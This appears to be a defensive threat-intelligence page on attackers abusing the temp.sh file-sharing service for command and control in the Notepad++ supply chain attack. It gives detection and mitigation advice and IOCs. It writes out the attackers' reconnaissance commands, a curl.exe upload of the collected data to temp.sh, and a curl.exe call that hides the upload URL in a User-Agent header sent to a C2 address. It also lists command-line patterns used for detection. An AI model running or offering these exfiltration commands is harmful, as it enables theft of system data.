


# ☣️ LOLC2 service abuse via temp.sh

🔥 **Criticality:Medium** ❗ : A Medium priority incident may affect public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence. 

🚦 **TLP:CLEAR** ⚪ : Recipients can spread this to the world, there is no limit on disclosure.


🗡️ **ATT&CK Techniques** [T1071.001 : Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001 'Adversaries may communicate using application layer protocols associated with web traffic to avoid detectionnetwork filtering by blending in with exis'), [T1567.002 : Exfiltration Over Web Service: Exfiltration to Cloud Storage](https://attack.mitre.org/techniques/T1567/002 'Adversaries may exfiltrate data to a cloud storage service rather than over their primary command and control channel Cloud storage services allow for'), [T1082 : System Information Discovery](https://attack.mitre.org/techniques/T1082 'An adversary may attempt to get detailed information about the operating system and hardware, including version, patches, hotfixes, service packs, and')


---

`🔑 UUID : bf30d882-9b96-403a-9a47-83a2981fc526` **|** `🏷️ Version : 1` **|** `🗓️ Creation Date : 2026-02-09` **|** `🗓️ Last Modification : 2026-02-09` **|** `Sharing Organisation : {'uuid': '56b0a0f0-b0bc-47d9-bb46-02f80ae2065a', 'name': 'EC DIGIT CSOC'}` **|** `🧱 Schema Identifier : tvm::2.1`


## 👁️ Description

> ## Executive Summary
> 
> Attackers are leveraging temp.sh, a legitimate temporary file-sharing service,
> as a Living-Off-the-Land Command and Control (LOLC2) infrastructure. This
> technique was observed in the Notepad++ supply chain attack, where adversaries
> used the service to exfiltrate system information and establish covert
> communication channels that blend with legitimate network traffic.
> 
> ## Technique Overview
> 
> The LOLC2 technique abuses temp.sh's legitimate functionality to:
> 1. Act as an intermediary storage location for collected system information
> 2. Facilitate data exfiltration through a trusted, legitimate service
> 3. Enable indirect C2 communication by embedding temp.sh URLs in unusual HTTP headers
> 4. Evade detection by leveraging services that appear benign to network monitoring tools
> 
> ## Attack Sequence
> 
> The attack follows a three-step process that was observed in both chains #1 and #2
> of the Notepad++ supply chain compromise:
> 
> ### Step 1: System Information Collection
> 
> The attacker executes shell commands to collect reconnaissance data from the
> compromised system:
> 
> **Initial variant**:
> ```
> cmd /c whoami&&tasklist > 1.txt
> ```
> 
> **Evolved variant**:
> ```
> cmd /c "whoami&&tasklist&&systeminfo&&netstat -ano" > a.txt
> ```
> 
> **Split execution variant**:
> Multiple separate commands writing to a.txt, including:
> - User identification (whoami)
> - Running processes (tasklist)
> - System configuration (systeminfo)
> - Network connections (netstat -ano)
> 
> ### Step 2: Data Upload to temp.sh
> 
> Collected system information is uploaded to temp.sh using curl.exe:
> 
> ```
> curl.exe -F "file=@1.txt" -s https://temp.sh/upload
> ```
> 
> Or with the evolved filename:
> ```
> curl.exe -F "file=@a.txt" -s https://temp.sh/upload
> ```
> 
> The temp.sh service responds with a URL where the uploaded file can be accessed
> (e.g., https://temp.sh/ZMRKV/1.txt).
> 
> ### Step 3: URL Transmission via User-Agent Header
> 
> The attacker sends the temp.sh URL back to their C2 server by embedding it in
> an HTTP User-Agent header - an unusual and suspicious behavior:
> 
> ```
> curl.exe --user-agent "https://temp.sh/ZMRKV/1.txt" -s http://45.76.155[.]202
> ```
> 
> Alternative C2 endpoints observed:
> - http://45.76.155[.]202/list
> - https://self-dns.it[.]com/list
> 
> ## Technical Analysis
> 
> ### Why temp.sh?
> 
> Attackers selected temp.sh for several strategic reasons:
> 
> 1. **Legitimate Service**: temp.sh is a genuine, widely-used temporary file
>    sharing platform, making connections appear benign
> 2. **HTTPS Traffic**: All communications use encrypted HTTPS, hindering
>    inspection
> 3. **No Authentication Required**: The service requires no account creation
>    or authentication
> 4. **Temporary Nature**: Files are automatically deleted after a period,
>    reducing forensic evidence
> 5. **Infrastructure Separation**: The attacker's C2 infrastructure remains
>    separate from the exfiltration channel
> 
> ### User-Agent Header Abuse
> 
> The use of temp.sh URLs in User-Agent headers is particularly noteworthy:
> 
> - **Purpose**: Notifies the C2 server where to retrieve the uploaded system
>   information
> - **Unusual Behavior**: User-Agent strings should contain browser/client
>   identification, not URLs
> - **Detection Opportunity**: This anomaly is detectable through network
>   monitoring and HTTP header analysis
> - **Stealth Attempt**: Avoids direct connections between compromised host
>   and attacker infrastructure
> 
> ## Indicators of Compromise (IOCs)
> 
> ### Network Indicators
> 
> **temp.sh Communication Patterns**:
> ```
> - DNS queries for temp.sh
> - HTTPS POST requests to https://temp.sh/upload
> - HTTPS GET requests to https://temp.sh/* URLs
> ```
> 
> **C2 Infrastructure (from Notepad++ attack)**:
> ```
> - 45.76.155[.]202
> - self-dns.it[.]com
> ```
> 
> ### Host-Based Indicators
> 
> **Process Activity**:
> - curl.exe executions with temp.sh domain
> - cmd.exe spawning system information collection commands
> - File creation in user-writable locations (1.txt, a.txt)
> 
> **Command Line Patterns**:
> ```
> curl.exe -F "file=@*" -s https://temp.sh/upload
> curl.exe --user-agent "https://temp.sh/*" -s http://*
> cmd /c whoami&&tasklist
> cmd /c "whoami&&tasklist&&systeminfo&&netstat -ano"
> ```
> 
> ## Detection Opportunities
> 
> ### Network Detection
> 
> 1. **DNS Monitoring**:
>    - Alert on DNS resolutions for temp.sh from unexpected hosts
>    - Correlate temp.sh lookups with subsequent command execution activity
> 
> 2. **HTTP/HTTPS Inspection**:
>    - Monitor for User-Agent headers containing URLs (especially temp.sh URLs)
>    - Detect POST requests to https://temp.sh/upload
>    - Identify patterns of upload followed by suspicious C2 communication
> 
> 3. **Traffic Analysis**:
>    - Look for small file uploads to temp.sh followed by connections to
>      suspicious IPs
>    - Baseline normal temp.sh usage and alert on deviations
> 
> ### Host Detection
> 
> 4. **Process Monitoring**:
>    - Monitor curl.exe executions with -F (file upload) parameter
>    - Alert on curl.exe with --user-agent parameter containing URLs
>    - Track cmd.exe spawning reconnaissance commands
> 
> 5. **Command Line Analysis**:
>    - Detect command chains combining whoami, tasklist, systeminfo, netstat
>    - Look for output redirection to temporary files (*.txt)
>    - Identify curl.exe usage patterns associated with file exfiltration
> 
> 6. **File System Monitoring**:
>    - Monitor creation of reconnaissance output files (1.txt, a.txt) in
>      user directories
>    - Track short-lived files that are created, uploaded, and deleted
> 
> ### Kaspersky Detection
> 
> Kaspersky detects this activity with the **lolc2_connection_activity_network** rule,
> which identifies:
> - Connections to known LOLC2 services
> - Unusual HTTP header patterns
> - File sharing service abuse for C2 purposes
> 
> ## Mitigation Recommendations
> 
> ### Immediate Actions
> 
> 1. **Network Controls**:
>    - Consider blocking or monitoring connections to temp.sh if not required
>      for business operations
>    - Implement SSL/TLS inspection for file-sharing services
>    - Alert on curl.exe network activity to file-sharing platforms
> 
> 2. **Host-Based Controls**:
>    - Restrict curl.exe execution to authorized users/applications
>    - Monitor and alert on reconnaissance command execution
>    - Implement application control policies
> 
> ### Long-term Measures
> 
> 3. **Detection Enhancement**:
>    - Deploy behavioral detection for unusual User-Agent strings
>    - Implement anomaly detection for HTTP client tool usage
>    - Create baselines for normal file-sharing service usage
> 
> 4. **Network Segmentation**:
>    - Limit outbound HTTPS connections from sensitive systems
>    - Implement egress filtering for workstations
>    - Use DNS filtering to block or alert on suspicious services
> 
> 5. **Security Awareness**:
>    - Educate users about legitimate vs. malicious use of file-sharing services
>    - Train SOC analysts on LOLC2 techniques and detection methods
> 
> ## MITRE ATT&CK Mapping
> 
> ### T1071.001 - Application Layer Protocol: Web Protocols
> 
> Attackers use HTTPS protocol to communicate with temp.sh for file uploads and
> with C2 infrastructure for command and control, blending malicious traffic with
> legitimate web communications.
> 
> ### T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage
> 
> System information is exfiltrated by uploading to temp.sh, a legitimate cloud-based
> file-sharing service, enabling data theft through a trusted platform that evades
> traditional DLP controls.
> 
> ### T1082 - System Information Discovery
> 
> Attackers collect system configuration, user context, running processes, and
> network connections to understand the compromised environment and inform further
> attack decisions.
> 
> ## Evolution and Variants
> 
> The technique showed evolution during the Notepad++ campaign:
> 
> **Early Phase (July-August 2025)**:
> - Simple collection: whoami&&tasklist
> - Single output file: 1.txt
> 
> **Later Phase (September-October 2025)**:
> - Enhanced collection: whoami&&tasklist&&systeminfo&&netstat -ano
> - Different filename: a.txt
> - More comprehensive reconnaissance
> 
> This evolution demonstrates attacker adaptation and refinement of techniques
> over time.
> 
> ## Threat Context
> 
> ### Living-Off-the-Land C2
> 
> This technique represents a growing trend in adversary tradecraft:
> 
> - **Service Abuse**: Legitimate services become unwitting accomplices in attacks
> - **Detection Evasion**: Trusted platforms bypass reputation-based security controls
> - **Infrastructure Resilience**: Attackers use services maintained by third parties
> - **Cost Reduction**: No need to maintain dedicated exfiltration infrastructure
> 
> ### Related LOLC2 Services
> 
> Other legitimate services commonly abused for C2 include:
> - Pastebin and similar text-sharing sites
> - Cloud storage providers (Google Drive, Dropbox)
> - Messaging platforms (Discord, Telegram, Slack)
> - Code repositories (GitHub, GitLab)
> - DNS services and TXT records
> 
> ## Conclusion
> 
> The abuse of temp.sh for LOLC2 demonstrates sophisticated adversary tradecraft
> that blends malicious activity with legitimate services. Organizations must
> implement multi-layered detection focusing on behavioral anomalies rather than
> relying solely on reputation-based security controls. The unusual User-Agent
> header manipulation provides a strong detection signal that should be prioritized
> in network monitoring configurations.
> 
> ## References
> 
> - Kaspersky Securelist: "Notepad++ Supply Chain Attack" (February 2026)
> - Rapid7 Research: "Notepad++ Supply Chain Compromise Analysis" (February 2026)
> - temp.sh service: https://temp.sh/
> 


## 🖥️ Terrain 

 > Organizations and environments where adversaries have established initial access
> and are attempting to maintain covert command and control communications while
> evading network detection. This technique targets environments where outbound
> HTTPS traffic to legitimate file-sharing services is allowed, enabling attackers
> to blend malicious traffic with normal business operations. Particularly relevant
> in environments with developer workstations, laptops, and systems with curl.exe
> or similar HTTP client tools available.
> 

---

## 🕸️ Relations


### 🌊 OpenTide Objects




 **Descendants** 

| 🎯 Detection Objectives                                                                                                                                                                                                                                                                                        | 📡 Detection Objective Signals (5)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | 🛡️ Detection Models    | 🚨 Detection Rules    |
|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:-----------------------|:---------------------|
| [Detect Notepad++ Supply Chain Compromise Activity](../Detection%20Objectives/🎯%20Detect%20Notepad++%20Supply%20Chain%20Compromise%20Activity.md 'This detection objective addresses the sophisticated supply chain compromiseof Notepad update infrastructure that occurred between July and October 20...') | [Detect Notepad++ Supply Chain Compromise Activity::System Reconnaissance Commands Following Software Update](Detect%20Notepad++%20Supply%20Chain%20Compromise%20Activity#system-reconnaissance-commands-following-software-update.md 'Detects sequences of system reconnaissance commands characteristic of theNotepad supply chain attack discovery phase Attackers executed combinationsof...')<br>[Detect Notepad++ Supply Chain Compromise Activity::Suspicious DLL Side-Loading and Exploit-Based Execution](Detect%20Notepad++%20Supply%20Chain%20Compromise%20Activity#suspicious-dll-side-loading-and-exploit-based-execution.md 'Detects malicious execution via legitimate software abuse, including DLLside-loading and exploitation of vulnerable legitimate executables TheNotepad ...')<br>[Detect Notepad++ Supply Chain Compromise Activity::Data Exfiltration to temp.sh Web Service](Detect%20Notepad++%20Supply%20Chain%20Compromise%20Activity#data-exfiltration-to-temp.sh-web-service.md 'Detects data exfiltration to the tempsh temporary file sharing service,used by attackers to stage reconnaissance data and avoid direct C2 communicatio...')<br>[Detect Notepad++ Supply Chain Compromise Activity::NSIS Installer Deployment from Notepad++ Updater](Detect%20Notepad++%20Supply%20Chain%20Compromise%20Activity#nsis-installer-deployment-from-notepad++-updater.md 'Detects the execution of NSIS Nullsoft Scriptable Install System installerslaunched by GUPexe, the legitimate Notepad update component The maliciousup...')<br>[Detect Notepad++ Supply Chain Compromise Activity::Cobalt Strike Beacon C2 Communication](Detect%20Notepad++%20Supply%20Chain%20Compromise%20Activity#cobalt-strike-beacon-c2-communication.md 'Detects network communication to known Cobalt Strike C2 infrastructureassociated with the Notepad supply chain campaign All observed infectionchains u...') | ❌ No Detection Models  | ❌ No Detection Rules |


 --- 

### ⛓️ Threat Chaining




<details>
<summary>Expand chaining data</summary>

| ☣️ Vector                                                                                                                                                                                                                                                          | ⛓️ Link                 | 🎯 Target                                                                                                                                                                                                                                                     | ⛰️ Terrain                                                                                                                                                                                                                                                                                                                                                                                                    | 🗡️ ATT&CK                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [LOLC2 service abuse via temp.sh](../Threat%20Vectors/☣️%20LOLC2%20service%20abuse%20via%20temp.sh.md '## Executive SummaryAttackers are leveraging tempsh, a legitimate temporary file-sharing service,as a Living-Off-the-Land Command and Control LOLC2 in...') | `atomicity::implements` | [Notepad++ supply chain attack](../Threat%20Vectors/☣️%20Notepad++%20supply%20chain%20attack.md '## Executive SummaryOn February 2, 2026, Notepad developers disclosed a critical supply chain compromise affecting their update infrastructure The att...') | Organizations and individuals using Notepad++ text editor on Windows systems,  particularly those with automatic update mechanisms enabled. The attack targeted  the legitimate update infrastructure, delivering malicious payloads disguised  as authentic software updates. Victims were distributed globally across multiple  sectors including government, financial services, and IT service providers. | [T1195.002 : Supply Chain Compromise: Compromise Software Supply Chain](https://attack.mitre.org/techniques/T1195/002 'Adversaries may manipulate application software prior to receipt by a final consumer for the purpose of data or system compromise Supply chain comprom'), [T1071 : Application Layer Protocol](https://attack.mitre.org/techniques/T1071 'Adversaries may communicate using OSI application layer protocols to avoid detectionnetwork filtering by blending in with existing traffic Commands to'), [T1059 : Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059 'Adversaries may abuse command and script interpreters to execute commands, scripts, or binaries These interfaces and languages provide ways of interac'), [T1574 : Hijack Execution Flow](https://attack.mitre.org/techniques/T1574 'Adversaries may execute their own malicious payloads by hijacking the way operating systems run programs Hijacking execution flow can be for the purpo') |

</details>
&nbsp; 


---

## Model Data

#### **⛓️ Cyber Kill Chain**

 > Cyber attacks are typically phased progressions towards strategic objectives. The Unified Kill Chains provides insight into the tactics that hackers employ to attain these objectives. This provides a solid basis to develop (or realign) defensive strategies to raise cyber resilience.

 [`🕹️ Command & Control`](https://www.unifiedkillchain.com/assets/The-Unified-Kill-Chain.pdf) : Techniques that allow attackers to communicate with controlled systems within a target network.

---

#### **💣 Severity**

 > The severity summarizes the overall danger of incident the vector will provoke, and is to be derived (WIP) from impact, leverage, and difficulty to execute.

 [`🧨 Moderate incident`](https://www.ncsc.gov.uk/news/new-cyber-attack-categorisation-system-improve-uk-response-incidents) : A cyber attack on a small organisation, or which poses a considerable risk to a medium-sized organisation, or preliminary indications of cyber activity against a large organisation or the government.

---

#### **🪄 Leverage acquisition**

 > Technical aftermath of the attack from the target perspective, differentiated from impact as it does not consider the value of the consequence, only what increased control the vector execution provides to the adversary.

  - [`👁️‍🗨️ Information Disclosure`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Threat action intending to read a file that one was not granted access to, or to read data in transit.
 - [`🦠 Dwelling`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Active or passive extended presence in the target, which performs adversarial operations continuously.

---

#### **💥 Impact**

 > Analysis of the threat vector from the organizational perspective, in non technical term. This aims at putting a clear denomination on what the attacker will actually be able to act upon if the threat vector is realized.

  - [`🔓 Data Breach`](http://veriscommunity.net/enums.html#section-impact) : Non-public information has been accessed from the outside, and successfully extracted.
 - [`🌍 Reputational Damages`](http://veriscommunity.net/enums.html#section-impact) : Damages to the organization public view may be achieved by using directly the access gained, or indirectly with data gathered.

---

#### **🎲 Vector Viability**

 > Described with estimative language (likelyhood probability), describes how likely the analyst believes the vector to actually be realized on the organization infrastructure. Estimative language describes quality and credibility of underlying sources, data, and methodologies based Intelligence Community Directive 203 (ICD 203) and JP 2-0, Joint Intelligence.

 [`🧐 Likely`](https://www.dni.gov/files/documents/ICD/ICD%20203%20Analytic%20Standards.pdf) : Probable (probably) - 55-80%

---


## 🌐 Threat Surface

- ` OS::Windows::Desktop` — Microsoft Windows desktop editions


### 🔗 References


**🕊️ Publicly available resources**

- [_1_] https://securelist.com/notepad-supply-chain-attack/115382/
- [_2_] https://www.rapid7.com/blog/post/2026/02/03/notepad-plus-plus-supply-chain-compromise/
- [_3_] https://temp.sh/

[1]: https://securelist.com/notepad-supply-chain-attack/115382/
[2]: https://www.rapid7.com/blog/post/2026/02/03/notepad-plus-plus-supply-chain-compromise/
[3]: https://temp.sh/

---

#### 🏷️ Tags

#-, #-, #-, #
, #
, ##, ##, ##, ##, # , #🏷, #️, # , #T, #a, #g, #s, #
, #


